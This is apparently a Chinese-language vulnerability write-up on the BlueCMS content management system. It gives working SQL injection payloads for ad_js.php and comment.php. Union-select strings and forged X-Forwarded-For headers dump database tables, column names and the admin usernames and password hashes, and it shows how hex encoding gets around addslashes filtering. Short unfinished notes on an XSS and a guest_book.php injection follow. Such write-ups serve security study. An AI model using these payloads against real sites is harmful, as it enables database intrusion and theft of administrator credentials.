

1. ad_js.php sql注入漏洞

get型参数，几乎没有任何过滤。
输出显示在网页源码注释中
payload：
爆表 ?ad_id=1 union select 1,2,3,4,5,6,group_concat(table_name) from information_schema.tables where table_schema=database() –+%20 –+
爆字段这里有点问题，因为在ad_js.php这个文件开始，包含了一个common.php文件，这个文件里，对所有的输入都做了过滤，对每一个输入都用addslashes函数进行了处理
所以本来的差字段payload应该是
?ad_id=1 union select 1,2,3,4,5,6,group_concat(column_name) from information_schema.columns where table_name=’blue_cms’
可以看到payload里用了引号，找了一圈办法都没法解决，宽字节的话，编码绕不过
unhex()只能hex一个字符，char()来拼接的话，+又会被浏览器转成空格，所以最后想了一下，用的这个payload
?ad_id=1 union select 1,2,3,4,5,6,group_concat(column_name) from information_schema.columns where table_name=mid((select group_concat(table_name) from information_schema.tables where table_SCHEMA=DATABASE()),23,10) –+
后续再爆字段应该也是一样的了
?ad_id=1 union select 1,2,3,4,5,6,group_concat(admin_name,0x3a,pwd) from blue_admin –+
后续更新，直接不要用unhex，直接0x就行了
blue_admin用核心编码后，
然后payload就是
?ad_id=1 union select 1,2,3,4,5,6,group_concat(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
2. comment.php sql注入漏洞
问题的来源在于这个语句的这个函数
getip()函数再common.fun.php文件中，使用getenv来赋值，comment.php中的功能点是把评论插入到数据库中，插入的时候除了会带上评论内容，评论用户的信息外，还会去试着获取评论用户的IP地址，getip就是完成获取ip这个功能的，从函数内容可以看到，它会尝试去获取x-forwarded-for的内容，这个内容要伪造相对容易，用bp就行了。而获取之后，没有做任何过滤，所以导致了注入，
搞明白了它的原理后，先注册一个用户，发表一篇文章，然后来到文章下面

随便写点东西，抓包，添加一个x-forword-for字段
X-Forwarded-For: 8.8.8.8


之后整个sql语句变成了

这个样子，这样子的话，利用insert插入多条语句的特性，把查询到的数据插入到数据库中，看评论的时候就可以把它带出来了。
sql语句稍微处理一下，长这个样子
INSERT INTO blue_comment (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check)VALUES (“,’1’,’3’,’1’,’6’,’12345’,’1627653165’,’8.8.8.8’,’12’)
所以爆表的paylaod是
X-Forwarded-For: 8.8.8.8’,’12’),(‘314’,’1’,’3’,’1’,’6’,user(),’1627653165’,’1


最后的sql语句
INSERT INTO blue_comment
(com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES
(‘’, ‘1’, ‘3’, ‘1’, ‘6’, ‘comment’, ‘1627811855’, ‘8.8.8.8’,’12’),
(‘314’,’1’,’3’,’1’,’6’,user(),’1627653165’,’1’, ‘1’)

之后可以手动进入数据库看看，

两条数据同时插进去了，这时候把它读出来

然后可以开始爆表
X-Forwarded-For: 8.8.8.8','12'),('','1','3','1','6',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'1627653165','1

超过长度了，要获取全部数据的话，用mid切片处理一下就好了。
爆字段
X-Forwarded-For: 8.8.8.8','12'),('','1','3','1','6',(select group_concat(column_name) from information_schema.columns where table_name="blue_admin"),'1627653165','1

同理
爆数据
X-Forwarded-For: 8.8.8.8','12'),('','1','3','1','6',(select group_concat(admin_name,0x3d,pwd) from blue_admin),'1627653165','1

3. ad_js.php 反射xss
问题在ad_js.php 引用的 common.inc.php文件的error_reporting(E_ERROR);中

还是有问题，不明白，error_reporting(E_ERROR);这么就可以把报错输出了
4. guest_book.php 存在sql注入
草稿
/index.php $result2 = $db->query(“SELECT * FROM “.table(‘article’).” WHERE cid=$row1[cat_id] and is_recommend = 1 and is_check = 1 ORDER BY id DESC LIMIT 7”);
$result2 = $db->query(“SELECT * FROM “.table(‘article’).” WHERE cid=$row1[cat_id] and is_recommend = 1 and is_check = 1 ORDER BY id DESC LIMIT 7”);
查询 row1[cat_id]，
需要可以控制blue_arc_cat中的数据
publish.php文件内容有问题，功能全没法用